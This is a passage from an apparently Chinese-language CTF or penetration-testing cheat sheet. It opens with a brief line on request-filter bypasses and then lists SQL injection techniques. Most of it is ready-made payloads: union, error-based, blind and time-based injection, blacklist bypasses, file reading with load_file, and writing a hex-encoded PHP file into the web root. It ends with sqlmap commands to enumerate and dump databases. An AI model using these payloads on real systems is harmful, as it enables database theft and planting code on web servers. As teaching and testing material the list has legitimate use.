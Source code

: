 - 绕过方式
IP地址转换、结合URL重定向、短网址绕过等

## SQL注入

- 直接注入（整数类） `UNION SELECT`
- 引号闭合（字符类） `' ORDER BY <COL_NUM> -- q`
- 单向注释闭合（查询等） `-- %23`
- 多符号闭合（引号括号等） `')` `'))`
- 双向闭合 `'and'a'='a` `'or 1=1 or ''='` `-1' union select 1,2,database()'`
- 报错注入 `updatexml(1,concat(0x7e,(<QUERY>),0x7e),1)`
- 回显长度受限 `substr(password,16)`
- 黑名单绕过 `UNunionION` `||` `%26%26`
- 读取文件 `(select load_file('/tmp/360/key'))`
- 计算长度 `length(database())`
- 布尔盲注 `' and ascii(substr(database(),1))=<44-122>`
- 内联注释符替代空格 `/**/`
- 空白符 `%09` `%a0`
- 二次注入 `admin'#`
- 无任何回显（考虑延时） `'and sleep(2)%23` `if(ascii(substr(database(),1))=115,sleep(2),1)`
- Hackbar插件注意事项：加号替换为%20、concat补充空格0x20
- INSERT语句注入 `xxx',database(),'aaa')-- %23`
- ORDER后注入 `1 asc` `1' desc-- %23` `rand(true)` `rand(length(database())=8)'-- %23`
- 写文件 `1' into outfile "/var/www/html/l33t.php" lines terminated by 0x3C3F3D706870696E666F28293B3F3E -- %23`
- 常用SQL
```SQL
select table_name from information_schema.tables where table_schema = 'security'
select column_name from information_schema.columns where table_name = 'users'

SELECT table_name FROM all_tables
SELECT column_name FROM all_tab_columns WHERE table_name = 'users'
```
- SQLmap常用命令
```shell
python sqlmap.py -r req.txt -p "<PARAM>"
python sqlmap.py -r req.txt --current-db
python sqlmap.py -r req.txt --dbs
python sqlmap.py -r req.txt -D "<DB_NAME>" --tables
python sqlmap.py -r req.txt -D "<DB_NAME>" -T "<TABLE_NAME>" --columns
python sqlmap.py -r req.txt -D "<DB_NAME>" -T "<TABLE_NAME>" -C "<COL_1>[,COL_2]" --dump
python sqlmap.py -r req.txt --threads=10
python sqlmap.py -r req.txt --sql-query "<QUERY>"
```
- 打印ASCII数组
```python
arr = [115,101,99,117,114,105,116,121]
res = ''
for num in arr:
    res += chr(num)
print(res)
```
